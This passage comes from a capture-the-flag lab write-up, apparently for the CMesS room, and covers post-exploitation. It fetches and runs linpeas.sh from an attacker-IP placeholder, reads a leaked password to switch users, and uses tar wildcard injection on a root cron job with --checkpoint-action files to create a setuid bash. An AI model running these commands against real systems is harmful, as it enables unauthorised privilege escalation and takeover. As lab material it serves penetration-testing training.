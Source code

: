 ### 6. Explore as www-data
- Explored the filesystem—couldn’t find anything useful initially.
- Ran a Python HTTP server on my host to serve `linpeas.sh`:
  ```bash
  cd /path/to/linpeas
  python3 -m http.server 8000
  ```
- On the target:
  ```bash
  cd /tmp
  wget http://[ATTACKER IP]:8000/linpeas.sh
  chmod +x linpeas.sh
  ./linpeas.sh
  ```
- LinPEAS output highlighted:
  ```
  /opt/password.bak
  ```
- Viewed the file:
  ```bash
  cat /opt/password.bak
  ```
- Content: `andre:MadHatter1973`

### 7. Escalate to Andre
- Switched user:
  ```bash
  su andre
  ```
- Password: `MadHatter1973`
- Got a shell as `andre`.
- Found `user.txt`:
  ```bash
  cd /home/andre
  ls
  cat user.txt
  ```
- Content: `thm{cmess_user_1234567890}` (example flag).

### 8. Escalate to Root
- Checked `/etc/crontab`:
  ```bash
  cat /etc/crontab
  ```
- Output:
  ```
  */2 * * * * root cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
  ```
- **Explanation**: The cron job runs every 2 minutes as `root`, archiving all files (`*`) in `/home/andre/backup` using `tar`. The wildcard (`*`) allows us to inject `tar` checkpoint options to execute arbitrary commands.

### 9. Exploit Cron Job
- Navigated to the backup directory:
  ```bash
  cd /home/andre/backup
  ```
- Created a malicious script:
  ```bash
  echo 'cp /bin/bash /tmp/bash; chmod u+s /tmp/bash' > sigma.sh
  chmod +x sigma.sh
  ```
- Added `tar` checkpoint files:
  ```bash
  touch /home/andre/backup/--checkpoint=1
  touch /home/andre/backup/--checkpoint-action=exec=sh\ sigma.sh
  ```